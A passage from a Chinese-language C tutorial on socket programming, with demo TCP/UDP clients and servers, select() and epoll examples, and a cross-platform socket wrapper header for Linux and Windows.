        char ip[INET6_ADDRSTRLEN];
        IF(inet_ntop(AF_INET, &cddr, ip, sizeof ip));
		printf("get connection from %s.\n", ip);

		// 开启多进程, fd == 0 是子进程处理
		IF(fd = fork()); 
		if(fd == 0) {
			close(sfd);

			write(cfd, HELLO_STR, strlen(HELLO_STR));
			close(cfd);

			exit(EXIT_SUCCESS);
		}
		
		// 父进程中关闭子进程的 socket fd
		close(cfd);

		// 非阻塞为子进程尝试收尸
		while(waitpid(-1, NULL, WNOHANG) > 0)
			;
	}
	
	return close(sfd);
}
```

    我们通过编译, telnet 链接, 最终 Ctrl + C 发送 SIGINT 信号演示. 如果你很挑剔不
    妨尝试将代码组织结构划分的更细点.



后客户端

    客户端程序比服务器还简单. 这个程序的所有工作是通过 8088 端口连接到命令行中指定
    的主机, 然后得到服务器发送过来的字符串.

```C
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <arpa/inet.h>

#define PORT_USHORT	(8088u)

#define IF(code)                    \
if((code) < 0)                      \
perror(#code), exit(EXIT_FAILURE)

int main(int argc, char * argv[]) {
    int sfd;
    IF(sfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP));

	struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(PORT_USHORT),
    };

    // 链接一下
    IF(connect(sfd, (struct sockaddr *)&addr, sizeof addr));

    // 接收消息直到结束
    for (;;) {
        ssize_t len;
        char buf[BUFSIZ];
        IF(len = read(sfd, buf, sizeof buf - 1));
        if (len == 0) {
            close(sfd);
            break;
        }
        
        // 开始输出
        buf[len] = '\0';
        puts(buf);
    }

    return 0;
}
```

    同样先启动服务器, 然后编译客户端, 再启动客户端, 随后关闭服务器这样演示. 是不是都
    好简单. 这种远古时代网络编程模式在 golang 中大杀四方. 诸神凝重 ~ 

 

**数据包 UDP Socket**

    不想讲更多了, 所以我给出代码 talker.c 和 listener.c. listener.exe 在机器上等待
    来自端口 8088 的数据包. talker.exe 发送数据包到指定的机器端口上, 它包含用户在命
    令行输入的内容. 再扯一点 TCP 和 UDP 可以绑定相同端口, 主要原因是机器接收到 IP 包
    随后通过其头部的协议值决定是向上给 TCP 栈或者还是给 UDP栈, 所以哪怕二者端口相同.

这里就是 listener.c

```C
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
#include <arpa/inet.h>
#include <sys/types.h>

#define PORT_USHORT	(8088u)

#define IF(code)                    \
if((code) < 0)                      \
perror(#code), exit(EXIT_FAILURE)

int main(int argc, char * argv[]) {
    int fd;
	IF(fd = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP));

    struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(PORT_USHORT),
    };
    socklen_t sen = sizeof addr;

	// 绑定地址, 然后接收数据
	IF(bind(fd, (struct sockaddr *)&addr, sen));

    // 等待并接收数据
    int n;
	char buf[BUFSIZ];
	IF(n = recvfrom(fd, buf, sizeof buf - 1, 
                    0, 
                    (struct sockaddr *)&addr, &sen));
	
    // 输出接收的地址信息
    char ip[INET6_ADDRSTRLEN];
    IF(inet_ntop(AF_INET, &addr, ip, sizeof ip));
	printf("get connection from %s.\n", ip);

	// 返回最终结果
    buf[n] = '\0';
    printf("n = %d, buf = %s\n", n, buf);
	
	return close(fd);
}
```

下面是 talker.c

```C
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <arpa/inet.h>

#define HELLO_STR	"... 想做个好人, ......\r\n"
#define PORT_USHORT	(8088u)

#define IF(code)                    \
if((code) < 0)                      \
perror(#code), exit(EXIT_FAILURE)

int main(int argc, char * argv[]) {
    int fd;
	IF(fd = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP));

    struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(PORT_USHORT),
    };
	// 发送消息
	IF(sendto(fd, HELLO_STR, sizeof HELLO_STR, 
              0, 
              (struct sockaddr *)&addr, sizeof addr));

	// 返回最终结果
	puts("万物也可能只是一梭信息, 除非出现 BUG or 异常!");
	
	return close(fd);
}
```



    观察它们的通讯! 除了一些我在上面提到的数据套接字连接的小细节外, 对于数据包套接字. 
    我还得说一点, 当 UDP 程序通过 connect() 函数绑定地址时候, 后续你使用 sendto(), 
    recvfrom() 时可以不用附带地址 sockaddr 信息, 此刻完全可以用 send() 和 recv() 
    代替. 原因在于 connnect() 函数帮助在内核记录下所需要的地址信息. 

**阻塞**

    阻塞, 你也许早就听说了. "阻塞"是 "sleep" 的科技行话. 你可能注意到前面运行的
    listener.exe 程序, 它在 recvfrom() 时候等待数据包的到来. 如果没有数据就会一致等
    待, 因此 recvfrom() 说 "阻塞(block)", 直到数据的到来. 很多函数都利用阻塞. 
    accept() 阻塞, 所有的 recv*() 函数阻塞. 它们之所以能这样做是因为它们被允许这样做
    . 当你第一次调用 socket() 建立套接字描述符的时候, 内核就将它设置为阻塞. 如果你不
    想套接字阻塞, 你就要调用函数 fcntl() 修改为非阻塞模式.

```C
#include <fcntl.h>
#include <unistd.h>

int fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

int mode = fcntl(fd, F_GETFL, 0);
return fcntl(fd, F_SETFL, mode | O_NONBLOCK);
```

    通过设置套接字为非阻塞, 你能够有效地"询问"套接字以获得信息. 如果你尝试着从一个非阻
    塞的套接字读信息并且没有任何数据, 它不允许阻塞. 它将返回 -1 并将 errno 设置为 
    EAGAIN. 但是一般说来, 这种询问不是个好主意. 如果你让你的程序在忙等状态查询套接字的
    数据, 你将浪费大量的 CPU 时间. 更好的解决之道是用下一章讲的 IO 复用机制, 被通知后
    才去查询是否有数据要读进来. 到这基本上 TCP 和 UDP 在 Linux socket 开发扫盲已经完
    毕, 后续的勤学苦练就随缘渡海了 :)


### 7.2.5 编程拓展

        说了那么多, 后续会逐渐进入状态, 更多还是回顾. 因为很多都是很老的东西. 

**select()**

    这个函数有点奇怪, 但是它很有用. 假设这样的情况: 你是个服务器, 你一边在不停地从连接
    上读数据, 一边在侦听连接上的信息. 没问题, 你可能会说, 不就是一个 accept() 和一个 
    recv() 吗? 这么容易吗, 朋友? 如果你在调用 accept() 的时候阻塞呢? 你怎么能够同时接
    受 recv() 数据? "用非阻塞的套接字啊!" 不行! 你不想耗尽所有的 CPU 吧? 那么, 该如何
    是好? select() 让你可以同时监视多个套接字. 如果你想知道的话, 那么它就会告诉你哪个
    套接字准备读, 哪个又准备写, 哪个套接字又发生了意外 (exception). 闲话少说, 下面是 
    select() 一种模拟演示:

```C
/* According to POSIX.1-2001, POSIX.1-2008 */
#include <sys/select.h>

/* According to earlier standards */
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>

void FD_ZERO(fd_set * set);
void FD_SET(int fd, fd_set * set);
void FD_CLR(int fd, fd_set * set);
int  FD_ISSET(int fd, fd_set * set);

int select(int nfds, 
           fd_set  * readfds, fd_set * writefds, fd_set * exceptfds, 
           struct timeval * timeout);
```

    这个函数监视一系列文件描述符, 特别是 readfds writefds 和 exceptfds. 如果你想知
    道你是否能够从标准输入和套接字描述符 sockfd 读入数据, 你只要将文件描述符 0 和 
    sockfd 加入到集合 readfds 中. 参数 nfds 应该等于最高的文件描述符的值加 1. 在这个
    例子中, 你应该设置该值为 sockfd + 1. 因为它一定大于标准输入的文件描述符 0. 当函数
    select() 返回的时候, readfds 的值修改为反映你选择的哪个文件描述符可以读. 你可以用
    FD_ISSET() 来测试. 在我们继续下去之前, 让我来讲讲如何对这些集合进行操作. 每个集合
    类型都是 fd_set. 下面加一些注释来说明:

        FD_ZERO(fd_set * set)           - 清除一个文件描述符集合
        FD_SET(int fd, fd_set * set)    - 添加 fd 到集合
        FD_CLR(int fd, fd_set * set)    - 从集合中移去 fd
        FD_ISSET(int fd, fd_set * set)  - 测试 fd 是否在集合中

    最后, 是有点古怪的数据结构 struct timeval. 有时你可不想永远等待别人发送数据过来. 
    也许什么事情都没有发生的时候你也想每隔 64 秒在终端上打印字符串 "对不起". 这个数据
    结构允许你设定一个时间, 如果时间到了, 而 select() 还没有找到一个准备好的文件描述符
    , 它将返回让你继续处理. 数据结构 struct timeval 是这样的:

        struct timeval {
            long    tv_sec;         /* seconds */
            long    tv_usec;        /* microseconds */
        };

    只要将 tv_sec 设置为你要等待的秒数, 将 tv_usec 设置为你要等待的微秒数就可以了. 是
    的, 是微秒而不是毫秒. 1,000 微秒等于 1 毫秒，1,000 毫秒等于 1 秒. 也就是说, 1 秒
    等于 1,000,000 微秒. 为什么用符号 "usec" 呢? 字母 "u" 很象希腊字母 Mu, 而 Mu 
    表示 "微" 的意思. 当然, 函数返回的时候 timeout 可能是剩余的时间, 之所以是可能, 是
    因为它依赖于你的 linux 操作系统对于时间片的实现. 还有一些有趣的事情: 如果你设置数据
    结构 struct timeval 中的数据为 0, select() 将立即超时, 这样就可以有效地轮询集合
    中的所有的文件描述符. 如果你将参数 timeout 赋值为 NULL, 那么将永远不会发生超时, 
    即一直等到有文件描述符就绪. 最后, 如果你不是很关心等待多长时间, 那么就把它赋为 
    NULL 吧. 下面的代码演示了在标准输入上等待 2.5 秒:

演示代码 select.c

```C
#include <stdio.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>

// 等待控制台 2.5s 操作
int main(int argc, char * argv[]) {
    fd_set fds = { 0 };
    struct timeval tv = { 2, 500000 };

    FD_SET(STDIN_FILENO, &fds);
    if(select(STDIN_FILENO + 1, &fds, NULL, NULL, &tv) < 0) {
        printf("select error tv = %ld | %ld.\n", tv.tv_sec, tv.tv_usec);
        return -1;
    }

    // 判断结果1
    if(FD_ISSET(STDIN_FILENO, &fds))
        puts("A key war pressed!");
    else
        puts("Timed out");

    return 0;
}
```


    我这里对于 select 介绍时百不存一, 后续强烈推荐读者认真演技相关资料. 它很与众不同. 
    到这里本节应该结束了, 但是一念想起高中老师的谆谆教导, 回赠个总的复习吧!

**问: TCP 是否可以只进行两次握手建立链接?**

    首先回顾下 TCP 通过三次握手建立安全连接的大致过程:
        * 客户端向服务器发送一个 SYN, seq = x，尝试连接服务器
        * 服务器向客户端响应一个 SYN, seq = y, 并对 seq = x 进行确认 ack x + 1,
          表示服务器可用, 可以建立连接了
        * 客户端再向服务器发一个确认 ack y+1, 连接建立成功
    更加详细的看下图.



    从这个过程我们就有了解答这个问题的素材了. 假如两次握手, 即没有 3 那条线. 这时候对于
    Server 而言是无法知道其发送的序列号 y, 已经被 Client 知道了. 这就导致一个现象是
    两次握手可以建立链接, 但无法确定这个链接是否有效. 因而对于 TCP 这种追求可靠链接的协
    议两次握手建立链接方式是不可取的. 

**问: TCP 为什么 TIME_WAIT 默认等待 2MSL?**

    首先还是得熟悉 TCP 四次挥手的过程.


    
    单纯从图中可以看出 LAST_ACK 和 TIME_WAIT 都能凑出 2MSL 时间. 我们从理想情况分
    析. Client 收到 FIN 会从 TIME_WAIT_2 变为 TIME_WAIT 开始回复 Server ACK. 
    这时候临界情况回复了 MSL 长度的 ACK, Server 还是没有收到, 也经过了 MSL 又给 
    Client 发送最后一个 FIN. 此刻 Client 还要回复 1 MSL ACK, 这次过后, 可以确定
    对方已经消解在虚拟的网络中了. 这就是 2 个 MSL 的由来.

**IO 复用中结束本小节吧**

    最好继续帮助加深理解吧. 其实网络编程还是比较难搞的. 细节多技巧性强, 网络编程内幕确
    实不少. 我也只是个菜鸡. 到这再带大家掌握一下 Linux 上运用 epoll IO 复用 API 管
    理文件描述符. 修行的就看个人了, 演示 Demo 如下:

```C
#include <time.h>
#include <fcntl.h>
#include <errno.h>
#include <stdio.h>
#include <string.h>
#include <limits.h>
#include <stdlib.h>

#include <netdb.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/epoll.h>
#include <sys/socket.h>

// CERR - 打印错误信息
#define CERR(fmt, ...)                                                 \
fprintf(stderr, "[%s:%s:%d][%d:%s]"fmt"\n",                            \
    __FILE__, __func__, __LINE__, errno, strerror(errno), ##__VA_ARGS__)

// IF   - 条件判断异常退出的辅助宏
#define IF(cond)                                                       \
if ((cond) < 0) do {                                                   \
    CERR(#cond);                                                       \
    exit(EXIT_FAILURE);                                                \
} while(0)

//
// RETURN - 打印错误信息, 并 return 返回指定结果
// val      : return 的东西, 当需要 return void; 时候填 , or NIL
// fmt      : 双引号包裹的格式化字符串
// ...      : fmt 中对应的参数
// return   : val
// 
#define RETURN(val, fmt, ...)                                         \
do {                                                                  \
    CERR(fmt, ##__VA_ARGS__);                                         \
    return val;                                                       \
} while(0)

#define NIL
#define RETNIL(fmt, ...)                                              \
RETURN(NIL, fmt, ##__VA_ARGS__)

// setnonblock 设置套接字非阻塞
inline static void setnonblock(int fd) {
	int mode = fcntl(fd, F_GETFL);
	IF(fcntl(fd, F_SETFL, mode | O_NONBLOCK));
}

// echo_send 发给数据给客户端
void echo_send(int efd, int fd);

// echo_add 添加监听的 socket
void echo_add(int efd, int fd);

// echo_recv 接收数据
void echo_recv(int efd, int fd);

//
// echo.c echo 服务主业务
//

#define PORT_USHORT		(8088u)
#define EPOLL_EVENT     (64)
#define EPOLL_WAIT		(60 * 1000)

int main(int argc, char * argv[]) {
	int sfd, efd, n, on = 1;
	struct sockaddr_in a = { 
        .sin_family = AF_INET, 
        .sin_port = htons(PORT_USHORT), 
    };
	
	// 创建 socket 并检测
    IF(sfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP));
	// 设置地址复用
	IF(setsockopt(sfd, SOL_SOCKET, SO_REUSEADDR, &on, sizeof on));
	// 设置 socket 为非阻塞的
	setnonblock(sfd);
	// 绑定地址地址
	IF(bind(sfd, (struct sockaddr *)&a, sizeof a));
	// 开始监听端口
	IF(listen(sfd, SOMAXCONN));

	// 这里创建 epoll 对象的句柄
	IF(efd = epoll_create1(EPOLL_CLOEXEC));
	// 这里注册一个监听事件, 这里采用边缘触发模型
	struct epoll_event es[EPOLL_EVENT], ev = { 
        .events = EPOLLIN | EPOLLET, 
        .data = { .fd = sfd }
    };
	IF(epoll_ctl(efd, EPOLL_CTL_ADD, sfd, &ev));
	
	//下面是等待操作,将时间传送给客户端
	for (;;) {
        n = epoll_wait(efd, es, sizeof es/sizeof *es, EPOLL_WAIT);
        if (n < 0) {
            if (errno == EINTR)
                continue;
            CERR("epoll_wait efd = %d error", efd);
            break;
        }

		// 简单处理超时
		if(0 == n) {
			puts("echo server timeout, server auto exit ...");
			break;
		}
		
		// 处理各种 event
		for (on = 0; on < n; ++on) {
            uint32_t events = es[on].events;
			int fd = es[on].data.fd;

			// 有数据可以读取
			if (events & (EPOLLIN | EPOLLHUP)) { 
				if(fd == sfd)
					echo_add(efd, fd);
				else
					echo_recv(efd, fd);
				continue;
			}
			
			// 如果有数据要发送
			if (events & EPOLLOUT) {
				echo_send(efd, fd);
				continue;
			}
			
			// 其它事件目前挣只眼和闭只眼
            if (events & EPOLLERR) {
                CERR("epoll fd = %d, events = %u error", fd, events);
                continue;
            }
		}
	}
	
	close(efd);
    close(sfd);
	return EXIT_SUCCESS;
}

// echo_send 同客户端 socket 数据交互
void 
echo_send(int efd, int fd) {
    struct sockaddr_in a;    
    socklen_t aen = sizeof a;
    struct epoll_event ev = {
        .events = EPOLLIN | EPOLLET,
        .data = { .fd = fd }
    };

    // 获取客户端数据并打印
    if(getpeername(fd, (struct sockaddr *)&a, &aen) < 0) {
		epoll_ctl(efd, EPOLL_CTL_DEL, fd, &ev);
		close(fd);
        RETNIL("getpeername fd is error = %d.", fd);
    }

    // 字符串拼接
    char buf[BUFSIZ];
    char ip[INET6_ADDRSTRLEN];
    aen = snprintf(buf, sizeof buf, 
                   "send: [%s:%d] To start ...\n",
		            inet_ntop(AF_INET, &a, ip, sizeof ip),
                    ntohs(a.sin_port));
    printf("%s", buf);

    // 发送信息给客户端, 这里不考虑传输异常情况
    send(fd, buf, aen, 0);

    // 重新注册为读事件, 采用边缘触发
	epoll_ctl(efd, EPOLL_CTL_MOD, fd, &ev);
}

// echo_add 添加监听的 socket
void 
echo_add(int efd, int fd) {
    struct sockaddr_in a;
    socklen_t aen = sizeof a;
    int cfd = accept(fd, (struct sockaddr *)&a, &aen);
    IF(cfd);
    setnonblock(cfd);

    struct epoll_event ev = { 
        .events = EPOLLIN | EPOLLET,
        .data = { .fd = cfd }
    };
    if (epoll_ctl(efd, EPOLL_CTL_ADD, cfd, &ev)) {
        CERR("epoll_ctl cfd = %d", cfd);
        close(cfd);
    }
}

// echo_recv 接收数据
void 
echo_recv(int efd, int fd) {
	// 设置 epoll event 边缘触发
	struct epoll_event ev = { 
        .events = EPOLLIN | EPOLLOUT | EPOLLET,
        .data = { .fd = fd } 
    };

    ssize_t n;
	char buf[BUFSIZ];
    do {
        n = recv(fd, buf, BUFSIZ-1, 0);
        if (n < 0) {
            if (errno == EINTR)
                continue;
            // 当前事件已经处理完毕!
            if (errno == EAGAIN)
                break;

            // 句柄清除
			epoll_ctl(efd, EPOLL_CTL_DEL, fd, &ev);
			close(fd);

            // 异常情况
			RETNIL("read error n = %ld, fd = %d.", n, fd);   
        }

        if (n == 0) {
            epoll_ctl(efd, EPOLL_CTL_DEL, fd, &ev);
			close(fd);
            printf("client fd = %d close\n", fd);
            return;
        }

        // 数据输出
        buf[n] = '\0';
        printf("recv: %s", buf);
    } while (n >= BUFSIZ-1);

    // 修改 fd 的处理事件为写事件
	epoll_ctl(efd, EPOLL_CTL_MOD, fd, &ev);
}
```

    从这个过程我们就有了解答这个问题的素材了. 假如两次握手, 即没有 3 那条线. 这时候对于
    如果你抄写完毕, 并编译执行, 通过 telnet 可以简单测试测试. 到这里关于 C 基础 
    socket 开发的回顾内容基本结束了. 此刻也带领了一些人踏入了 Linux socket 开发的大
    门吧. 错误是难免的, 抄袭创新也只是拾人牙慧(贬义词). 毕竟一山还比一山高! 修行的大道
    上你会遇到更清澈的风, 更飘逸的云. 哈哈, 祝我们好运!

## 7.3 轰击金丹 socket 基础终章

    很高兴能到这里, 后面的这些封装可能让你在实战中势如破竹. 上面大段的文字中我们大体上回
    忆起 linux socket 有哪些 api 用法. 那 winds 呢. 这也算是个问题对吧. 解决思路会
    有很多, 我们这里介绍一种算加巧妙的方法, 就是在 winds 上面极大可能的模拟 linux api
    用法. 这样以后移植代码提供极大方面. 而需要模拟的无外乎 errno 机制, pipe 机制, 类
    型和部分接口细节上移植. 采用这个思路那我们开始搞起.

### 7.3.1 errno 机制

    winds 本身也有 errno, 但是在 socket 操作的时候, 走另一套机制 WSAGetLastError.
    那么就对它进行外科手术. 

```C
#undef	errno
#define	errno                   WSAGetLastError()
```

    同样 errno 得到错误码, 如何转成错误字符串(strerror). 对于 winds socket 很抱
    歉没有提供这么完备的函数. 但是没关系, 我们自己实现. 大家不妨看看 winerror.h 文件,
    豁然开朗

```C
// winerror.h 摘选部分

//
// MessageId: ERROR_SUCCESS
//
// MessageText:
//
// The operation completed successfully.
//
#define ERROR_SUCCESS                    0L

//
// MessageId: ERROR_INVALID_FUNCTION
//
// MessageText:
//
// Incorrect function.
//
#define ERROR_INVALID_FUNCTION           1L    // dderror

......
```

    大家有没有一点明白了, 上面很有规律不是吗! 通过这个规律我们就能自己实现一个 strerror 
    相似的函数. 看我的一种实现模板

strerr.c.template

```C
#if defined(__GNUC__)

#include <string.h>

extern inline const char * strerr(int error) {
    return strerror(error);
}

#endif

#if defined(_MSC_VER)

#include <stdio.h>
#include <winerror.h>

#define DWORD int

extern const char * strerr(int error) {
    switch (error) {
    case {MessageId} : return "{MessageText}";
    ......
    }

    fprintf(stderr, "strerr invaild error = %d.\n", error);
    return "The aliens are coming. Go tell your favorite people";
}

#undef DWORD

#endif
```

    是不是豁然开朗, 根据上面模板, 大家不妨当个阅读理解写一个切词的工具. 我用C写了个,
    人工干预其中几个重复的. 人总是向着希望走, 还是很有意思的. 

```C
#undef	strerror
#define strerror                (char *)strerr
```

    到这里是不是关于 linux socket errno 在 winds 就实现了一套了. 就是这样的野路子,
    不也能达到效果吗 ~

### 7.3.2 出来吧 socket 接口设计

    这个设计的 linux, winds 接口文件名称是 scsocket.h, 请记住它, 它会让你好看! 首先
    看看其中共有头文件设计.

```C
#ifndef _H_SIMPLEC_SCSOCKET
#define _H_SIMPLEC_SCSOCKET

#include <fcntl.h>
#include <signal.h>
#include "schead.h"

//
// IGNORE_SIGPIPE - 管道破裂,忽略SIGPIPE信号
//
#define IGNORE_SIGNAL(sig)	signal(sig, SIG_IGN)

#ifdef __GNUC__

#include <netdb.h>
#include <arpa/inet.h>
#include <netinet/tcp.h>
#include <sys/un.h>
#include <sys/uio.h>
#include <sys/select.h>
#include <sys/resource.h>

//
// This is used instead of -1, since the. by WinSock
//
#define INVALID_SOCKET          (~0)
#define SOCKET_ERROR            (-1)

#if !defined(EWOULDBOCK)
#define EWOULDBOCK              EAGAIN
#endif

// connect链接还在进行中, linux显示 EINPROGRESS，winds是 WSAEWOULDBLOCK
#define ECONNECTED              EINPROGRESS

#define SET_RLIMIT_NOFILE(num) \
	do { \
		struct rlimit $r = { num, num }; \
		setrlimit(RLIMIT_NOFILE, &$r); \
	} while(0)

typedef int socket_t;

#elif _MSC_VER

#undef	FD_SETSIZE
#define FD_SETSIZE              (1024)
#include <ws2tcpip.h>

#define SET_RLIMIT_NOFILE(num)	

#undef	errno
#define	errno                   WSAGetLastError()
#undef	strerror
#define strerror                (char *)strerr

#undef  EINTR
#define EINTR                   WSAEINTR
#undef	EAGAIN
#define EAGAIN                  WSAEWOULDBLOCK
#undef	EINVAL
#define EINVAL                  WSAEINVAL
#undef	EWOULDBOCK
#define EWOULDBOCK              WSAEINPROGRESS
#undef	EINPROGRESS
#define EINPROGRESS             WSAEINPROGRESS
#undef	EMFILE
#define EMFILE                  WSAEMFILE
#undef	ENFILE
#define ENFILE                  WSAETOOMANYREFS

// connect链接还在进行中, linux显示 EINPROGRESS，winds是 WSAEWOULDBLOCK
#define ECONNECTED              WSAEWOULDBLOCK

/*
 * WinSock 2 extension -- manifest constants for shutdown()
 */
#define SHUT_RD                 SD_RECEIVE
#define SHUT_WR                 SD_SEND
#define SHUT_RDWR               SD_BOTH

typedef int socklen_t;
typedef SOCKET socket_t;

//
// gettimeofday - Linux sys/time.h 中得到微秒的一种实现
// tv		:	返回结果包含秒数和微秒数
// tz		:	包含的时区,在window上这个变量没有用不返回
// return	:   默认返回0
//
extern int gettimeofday(struct timeval * tv, void * tz);

//
// strerr - linux 上面替代 strerror, winds 替代 FormatMessage 
// error	: linux 是 errno, winds 可以是 WSAGetLastError() ... 
// return	: system os 拔下来的提示字符串常量
//
extern const char * strerr(int error);

#else
#	error "error : Currently only supports the Best New CL and GCC!"
#endif

// EAGAIN and EWOULDBLOCK may be not the same value.
#if (EAGAIN != EWOULDBOCK)
#define EAGAIN_WOULDBOCK EAGAIN : case EWOULDBOCK
#else
#define EAGAIN_WOULDBOCK EAGAIN
#endif

// 目前通用的tcp udp v4地址
typedef struct sockaddr_in sockaddr_t;

//
// socket_start - 单例启动socket库的初始化方法
// 
extern void socket_start(void);

#endif // !_H_SIMPLEC_SCSOCKET
```

    INVALID_SOCKET 和 SOCKET_ERROR 是 linux 模拟 winds 严谨的错误验证. 前者用于
    默认无效的 socket 对象, 后者用于各种 socket 接口执行错误的时候返回的值. linux
    上 EWOULDBOCK 宏已经取消和 EAGAIN 宏功能重叠(socket 层面表示缓冲区已经读取空了)
    , 为了接口统一操作, 额外添加上. 其中 ECONNECTED 宏单独添加上的为了解决非阻塞的 
    connect 操作状态不一样问题. 其它的随后用上的时候你会豁然开朗. 

```C
#ifdef _MSC_VER

inline int
gettimeofday(struct timeval * tv, void * tz) {
    struct tm st;
    SYSTEMTIME wtm;

    GetLocalTime(&wtm);
    st.tm_year = wtm.wYear - 1900;
    st.tm_mon = wtm.wMonth - 1; // window的计数更好些
    st.tm_mday = wtm.wDay;
    st.tm_hour = wtm.wHour;
    st.tm_min = wtm.wMinute;
    st.tm_sec = wtm.wSecond;
    st.tm_isdst = -1; // 不考虑夏令时

    tv->tv_sec = (long)mktime(&st); // 32位使用数据强转
    tv->tv_usec = wtm.wMilliseconds * 1000; // 毫秒转成微秒

    return 0;
}

#endif
```

    对于 gettimeofday 接口 linux 上面应用的非常广泛. 但是前面已经知道完全可以通过
    time_get 更加优美的得到你想要得时间. 但是为了让有些程序好移植, 所以在 winds 上
    面了一套. 还有个下面函数非常有意思

```C
inline void 
socket_start(void) {
#ifdef _MSC_VER
#   pragma comment(lib, "ws2_32.lib")
    WSADATA wsad;
    WSAStartup(WINSOCK_VERSION, &wsad);
#elif __GUNC__
    IGNORE_SIGNAL(SIGPIPE)
#endif
}
```

    在 winds 上面 WSAStartup 和 WSACleanup 总是成双成对出现. 但是我们这里这个模块是
    模拟 linux 上 socket. linux 默认程序内嵌了相关 socket 模块 so 启动操作. 所以走
    全局, 没有使用卸载操作. 有的朋友喜欢这么额外添加下面一句

```C
static inline void _socket_start(void) {
	WSACleanup();
}
    // 在 socket_start 中插入这句
	atexit(_socket_start);
```

    这样做其实就是画蛇添足. 为啥呢, 在程序 exit 时候, 如果服务器的网络相关操作线程退出
    顺序是不确定的. 一旦 _socket_start 先触发, 对于其它调用方面就是各种 error 抛出来.
    倒不如走程序全局声明周期, 交给系统进程处理. 

    对于 EAGAIN_WOULDBOCK 宏, 用起来也是很飘

```C
switch (errno) {
case EINTR:
case EAGAIN_WOULDBOCK:
    return -1;
}
```

    是不是很巧妙. 面对 linux 过度封装的 errno 机制处理起来也变得很清晰吧. 
    随后看 scsocket.h 具体的业务接口, 本质就是在系统那套接口的基础上加了 socket_ 前缀.

```C
//
// socket_dgram     - 创建UDP socket
// socket_stream    - 创建TCP socket
// socket_close     - 关闭上面创建后的句柄
// socket_read      - 读取数据
// socket_write     - 写入数据
// socket_addr      - 通过ip, port 得到 ipv4 地址信息
//
extern socket_t socket_dgram(void);
extern socket_t socket_stream(void);
extern int socket_close(socket_t s);
extern int socket_read(socket_t s, void * data, int sz);
extern int socket_write(socket_t s, const void * data, int sz);
extern int socket_addr(const char * ip, uint16_t port, sockaddr_t * addr);

//
// socket_set_block     - 设置套接字是阻塞
// socket_set_nonblock  - 设置套接字是非阻塞
// socket_set_reuseaddr - 开启地址复用
// socket_set_keepalive - 开启心跳包检测, 默认2h 5次
// socket_set_recvtimeo - 设置接收数据毫秒超时时间
// socket_set_sendtimeo - 设置发送数据毫秒超时时间
//
extern int socket_set_block(socket_t s);
extern int socket_set_nonblock(socket_t s);
extern int socket_set_reuseaddr(socket_t s);
extern int socket_set_keepalive(socket_t s);
extern int socket_set_recvtimeo(socket_t s, int ms);
extern int socket_set_sendtimeo(socket_t s, int ms);

//
// socket_get_error - 得到当前socket error值, 0 表示正确, 其它都是错误
//
extern int socket_get_error(socket_t s);

//
// socket_recv      - socket接受信息
// socket_recvn     - socket接受len个字节进来
// socket_send      - socket发送消息
// socket_sendn     - socket发送len个字节出去
// socket_recvfrom  - recvfrom接受函数
// socket_sendto    - udp发送函数, 通过socket_udp 搞的完全可以 socket_send发送
//
extern int socket_recv(socket_t s, void * buf, int len);
extern int socket_recvn(socket_t s, void * buf, int len);
extern int socket_send(socket_t s, const void * buf, int len);
extern int socket_sendn(socket_t s, const void * buf, int len);
extern int socket_recvfrom(socket_t s, void * buf, int len, int flags, sockaddr_t * in, socklen_t * inlen);
extern int socket_sendto(socket_t s, const void * buf, int len, int flags, const sockaddr_t * to, socklen_t tolen);

//
// socket_bind      - 端口绑定返回绑定好的 socket fd, 失败返回 INVALID_SOCKET or PF_INET PF_INET6
// socket_listen    - 端口监听返回监听好的 socket fd.
//
extern socket_t socket_bind(const char * host, uint16_t port, uint8_t protocol, int * family);
extern socket_t socket_listen(const char * host, uint16_t port, int backlog);

//
// socket_tcp           - 创建TCP详细的套接字
// socket_udp           - 创建UDP详细套接字
// socket_accept        - accept 链接函数
// socket_connect       - connect操作
// socket_connects      - 通过socket地址连接
// socket_connecto      - connect连接超时判断
// socket_connectos     - connect连接客户端然后返回socket_t句柄
//
extern socket_t socket_tcp(const char * host, uint16_t port);
extern socket_t socket_udp(const char * host, uint16_t port);
extern socket_t socket_accept(socket_t s, sockaddr_t * addr);
extern int socket_connect(socket_t s, const sockaddr_t * addr);
extern int socket_connects(socket_t s, const char * ip, uint16_t port);
extern int socket_connecto(socket_t s, const sockaddr_t * addr, int ms);
extern socket_t socket_connectos(const char * host, uint16_t port, int ms);
```

    随后将会详细剖析其中接口, 这些接口真的是服务器研发升级的必备技能. 也是很多人忘了,
    但他就是金丹期的一个见证或者说试炼卡. 

### 7.3.3 socket_xxxx 都将水落石出

    首先看第一缕实现, 每一次突破(踩坑)都是血与泪.

```C
inline socket_t
socket_dgram(void) {
    return socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP);
}

inline socket_t
socket_stream(void) {
    return socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
}

inline int
socket_close(socket_t s) {
    shutdown(s, SHUT_WR);
#ifdef _MSC_VER
    return closesocket(s);
#else
    return close(s);
#endif
}

inline int 
socket_read(socket_t s, void * data, int sz) {
#ifdef _MSC_VER
    return sz > 0 ? recv(s, data, sz, 0) : 0;
#else
    // linux上面 read 封装了 recv
    return read(s, data, sz);
#endif
}

inline int 
socket_write(socket_t s, const void * data, int sz) {
#ifdef _MSC_VER
    return send(s, data, sz, 0);
#else
    return write(s, data, sz);
#endif
}

int 
socket_addr(const char * ip, uint16_t port, sockaddr_t * addr) {
    if (!ip || !*ip || !addr)
        RETURN(ErrParam, "check empty ip = %s, port = %hu, addr = %p.", ip, port, addr);

    addr->sin_family = AF_INET;
    addr->sin_port = htons(port);
    addr->sin_addr.s_addr = inet_addr(ip);
